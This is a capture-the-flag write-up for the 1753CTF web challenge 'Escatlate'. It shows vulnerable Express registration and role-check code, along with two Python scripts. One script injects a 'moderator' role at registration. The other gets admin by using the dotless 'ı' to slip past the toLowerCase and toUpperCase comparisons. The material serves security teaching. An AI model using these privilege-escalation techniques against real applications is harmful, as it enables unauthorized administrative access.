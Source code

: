 ## Challenge

**Title 1**
WEB // 😺 Escatlate (flag #1)

**Description 1**
Look! Kitties! // careful, this app is resetting every 15 mintutes
🔗 https://escatlate-52bc47e034fa.1753ctf.com
💾 https://get.1753ctf.com/escatlate/src?s=tB81ISR3

**Title 2**
WEB // 🙀 Escatlate (flag #2)

**Description 2**
Look! More kitties! // careful, this app is resetting every 15 mintutes
🔗 https://escatlate-52bc47e034fa.1753ctf.com
💾 https://get.1753ctf.com/escatlate/src?s=tB81ISR3

## Solution (Flag 1)

I exploited a simple IDOR vulnerability during user registration, which allowed me to inject a role into the request.

The code responsible for the vulnerability that allows role injection:
```javascript
app.post('/api/register', (req, res) => {

    const existingUser = users.find(u => u.username == req.body.username);
    if(existingUser)
        return res.status(400).send('User already exists');

    if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');

    const user = {
        username: req.body.username.substring(0, 20),
        password: req.body.password.substring(0, 20),
        token: crypto.randomBytes(32).toString('hex'),
        role: req.body.role.substring(0, 20) || 'user'
    }

    users.push(user);

    res.json(user);
})
```

The code that allows us to obtain the flag:
``` javascript
app.get('/api/message', (req, res) => {
    if(req.user.role.toUpperCase() === 'ADMIN')
        return res.json({ message: `Hi Admin! Your flag is ${process.env.ADMIN_FLAG}` });
    
    if(req.user.role.toUpperCase() === 'MODERATOR')
        return res.json({ message: `Hi Mod! Your flag is ${process.env.MODERATOR_FLAG}` });

    res.json({ message: `Hello ${req.user.username}` });
})
```

Authentication works as a middleware by passing x-token http header:

```javascript
app.use((req, res, next) => {
    const token = req.headers["x-token"];
    const user = users.find(u => u.token == token);

    if(!user)
        return res.status(401).send('Unauthorized');

    req.user = user;
    next();
})
```

I used the following Python script to automate the exploitation process:

- Register a new user with a known password (password123) and role moderator.
- If registration succeeds, extract the JWT token from the response.
- Use the token to access a protected endpoint and retrieve the flag.

```python
import requests
import random
import string

def generate_username(prefix="user", length=6):
    suffix = ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))
    return f"{prefix}_{suffix}"
    
username = generate_username()
password = "password123"

print(f"User {username}:{password}")

# Register contants
url_register = "https://escatlate-52bc47e034fa.1753ctf.com/api/register"
register_payload = {
    "username": username,
    "password": password,
    "role": "moderator"
}

headers_register = {
    "Content-Type": "application/json",
}

# Send register request
response = requests.post(url_register, json=register_payload, headers=headers_register)
response_data = response.json()

# Get token from response
token = response_data.get("token")
print(f"Token: {token}")

# If getting token is succed get a flag
if token:
    url_message = "https://escatlate-52bc47e034fa.1753ctf.com/api/message"
    headers_message = {
        "X-Token": token
    }

    response_msg = requests.get(url_message, headers=headers_message)
    print("Response from: /api/message:")
    print(response_msg.text)
else:
    print("[Error] No token provided.")

```

## Solution (Flag 2)

To get the second flag, we need to log in as an admin, but this is complicated by the following code during registration:

```javascript
    if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');
```

Another important piece of code is the one responsible for role verification when attempting to retrieve the message:

```javascript
    if(req.user.role.toUpperCase() === 'ADMIN')
        return res.json({ message: `Hi Admin! Your flag is ${process.env.ADMIN_FLAG}` });
```

I used the dotless 'ı' character to bypass these validations (https://www.ascii-code.com/character/%C4%B1). The role name I sent was "adm\u0131n". This allowed me to bypass the comparison with "admin" after applying the toLowerCase function. However, at the same time, the second validation, which used the toUpperCase function, converted the character to a regular 'I', and the comparison with "ADMIN" succeeded.

Here’s the exploit:

```python
import requests
import random
import string

def generate_username(prefix="user", length=6):
    suffix = ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))
    return f"{prefix}_{suffix}"
    
username = generate_username()
password = "password123"

print(f"User {username}:{password}")

# Register contants
url_register = "https://escatlate-52bc47e034fa.1753ctf.com/api/register"
register_payload = {
    "username": username,
    "password": password,
    "role": "adm\u0131n"
}

headers_register = {
    "Content-Type": "application/json",
}

# Send register request
response = requests.post(url_register, json=register_payload, headers=headers_register)
response_data = response.json()

# Get token from response
token = response_data.get("token")
print(f"Token: {token}")

# If getting token is succed get a flag
if token:
    url_message = "https://escatlate-52bc47e034fa.1753ctf.com/api/message"
    headers_message = {
        "X-Token": token
    }

    response_msg = requests.get(url_message, headers=headers_message)
    print("Response from: /api/message:")
    print(response_msg.text)
else:
    print("[Error] No token provided.")

```
